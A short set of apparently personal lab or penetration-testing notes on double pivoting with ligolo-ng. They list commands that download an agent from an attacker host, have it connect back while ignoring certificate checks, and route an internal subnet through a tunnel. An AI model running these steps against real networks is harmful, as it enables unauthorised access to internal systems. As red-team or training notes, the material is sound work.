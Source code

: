 - Install agent
```
curl http://172.16.8.120:8888/pivot/ligolo-ng/agent.exe -o agent.exe
``` 
- add listener on attacker machine
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601
```
- connect agent
```
.\agent.exe -connect 172.16.8.120:11601 -ignore-cert
```
- Create new tunel
```
sudo ip tuntap add user rohaki mode tun ligolo_double
sudo ip link set ligolo_double up
```
- Start with specific tunnel
```
session 2
start --tun ligolo_double
```
- Add route
```
sudo ip route add 172.16.9.0/24 dev ligolo_double
```